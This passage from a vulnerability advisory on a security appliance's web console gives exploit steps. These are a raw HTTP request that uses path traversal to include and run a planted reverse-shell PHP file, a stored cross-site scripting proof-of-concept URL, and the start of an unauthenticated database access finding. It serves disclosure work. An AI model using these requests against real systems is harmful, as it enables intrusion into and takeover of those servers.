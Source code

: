 After triggering an update from the Web console, the PHP script is written to the expected location.
    
          
```
[root@ localhost activeupdate]# ls -lha /var/tmcss/activeupdate/ | grep php
-rw-r--r--. 1 webserv webserv 66 ago 25 22:59 rshellPoolManager.php
```              

The final step is to include the script and execute our payload.
    
    
      
```
POST /widget/inc/widget_package_manager.php?sid=dj0efdmskngvt4lbhakgc6cru7 HTTP/1.1
Host: 192.168.45.186:4343
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:45.0) Gecko/20100101 Firefox/45.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
X-Requested-With: XMLHttpRequest
X-Request: JSON
X-CSRFToken: dj0efdmskngvt4lbhakgc6cru7
Content-Type: application/json; charset=utf-8
Content-Length: 122
Cookie: dj0efdmskngvt4lbhakgc6cru7=dj0efdmskngvt4lbhakgc6cru7
Connection: close

{"act": "check", "update_type": "../../../../../../../../../var/tmcss/activeupdate/rshell"}
```                
              

Steven Seeley and Roberto Suggi Liverani presented various privilege escalation vectors to move from webserv to root on their presentation "I Got 99 Trends and a # Is All Of Them". Based on our testing the attacks remain unpatched, so we did not try to find additional ways to escalate privileges.



### 7.4 Stored cross-site scripting

[[CVE-2017-14096](http://cve.mitre.org/cgi-bin/cvename.cgi?name=2017-14096)] The ru parameter of the wcs_bwlists_handler.php script is vulnerable to cross-site scripting. This endpoint is used to manage user defined URLs.

After the rule is inserted, the payload will be executed every time the user opens the user defined URLs section.

The following proof of concept stores code to open an alert box.
    
    
           
```
https://<serverIP>:4343/php/wcs_bwlists_handler.php?sid=2f03bf97fc4912ee&req=mgmt_insert&st=1&ac=0&ru=http%3A%2F%2F%3Cscript%3Ealert(1)%3C%2Fscript%3E&rt=3&ipt=0&ip4=&ip4m=128&cn=&dn=
```              



### 7.5 Improper access control

[[CVE-2017-14097](http://cve.mitre.org/cgi-bin/cvename.cgi?name=2017-14097)] The product console includes widgets that can be used to monitor other servers. Credentials to access the servers being monitored, widget logs and other information reside on a SQLite database which can be accessed without authentication at the following URL:
    